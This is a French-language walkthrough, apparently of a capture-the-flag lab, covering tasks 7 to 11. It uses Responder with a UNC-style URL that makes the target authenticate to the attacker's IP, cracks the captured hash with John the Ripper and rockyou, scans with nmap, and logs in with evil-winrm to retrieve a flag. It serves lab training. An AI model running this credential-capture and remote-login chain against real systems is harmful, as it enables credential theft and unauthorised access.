 
# Guide Responder

## ---------- Task 7


## Dans le terminal

Le flag `-I` de Responder permet de spécifier une interface. Voici un exemple d'utilisation :

```bash
responder -I 10.10.14.92
```
Avec cette commande nous faisons appel a l'outils puis on y insert le flag -I pour pouvoir préciser une interface.<br/>

## Dans le navigateur

```bash
http://domaine.cible\\10.10.14.92/toto
```
Dans le navigateur nous allons préciser le domaine que nous voulons exploiter, l'adresse IP vers la quelle les information doivent être renvoyer pui finalement nous y insserons un dossier fictif vers le quelle les information sont censer écrite

## ---------- Task 8 - John The Ripper

Trouver l'outils qui permet de crack des password et souvent appeller john!

-> John The Ripper Obviously!

## ---------- Task 9 - Décryptage avec John The Ripper

Decryptons le password en utilisant john the ripper

command utiliser -> john --wordlist=/usr/share/wordlists/rockyou.txt

on appel john puis on lui passe une wordlist bien précise pour ne pas qu'il passe tout en revu et pour une question de rapidité et clui ci nous retourneras si tout ce passe bien le mot de passe voulu
	

Résultat -> badminbton Obviously!!!

## ---------- Task 10 - Scan Nmap

precision des 6000 premier port pour un scan plus large car lors de la tache un sans precision celui ci a scan que les 1000 premier port

avec -> 
	namp -p int1-int2 -sV -sC [ip]
	
ainsi on voit le port 5985 reponse a la task 10

## ---------- Task 11 - Exploitation avec Evil-WinRM

Téléchargez Evil-WinRM.

Connectez-vous à la cible :

evil-winrm -i [ip] (de la cible) -u 'admin name' -p 'password de la cible'

Après quelques recherches dans les fichiers divers, le flag est trouvé à l'emplacement:

/user/mike/desktop/flag.txt

## -------

Note : Assurez-vous d'agir de manière éthique et légale dans toutes les activités de sécurité informatique. Respectez toujours les règles et les politiques en place.
```bash
```
